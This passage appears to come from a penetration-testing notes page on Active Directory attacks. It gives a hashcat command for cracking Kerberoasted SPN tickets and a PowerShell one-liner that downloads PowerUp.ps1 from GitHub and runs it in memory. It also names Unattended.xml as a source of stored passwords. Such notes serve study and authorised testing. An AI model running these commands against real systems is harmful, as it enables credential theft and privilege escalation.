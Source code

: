 * You should get a SPN ticket.
* Crack with hashcat

```
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

## Priv Esc

* We will run PowerUp.ps1 for the enumeration.
* Lets load PowerUp1.ps1 into memory.

```
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 
```

* Load into memory

```
. .\PowerUp.ps1
Invoke-AllChecks
```

* Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode."

It is also where users passwords are stored in base64. Navigate to:

```
C:\Windows\Panther\Unattend\Unattended.xml.
```

### Resources

* https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a
* https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat
* https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1
* https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/
* https://www.varonis.com/blog/kerberos-authentication-explained/
* https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf
* https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1493862736.pdf
* https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf
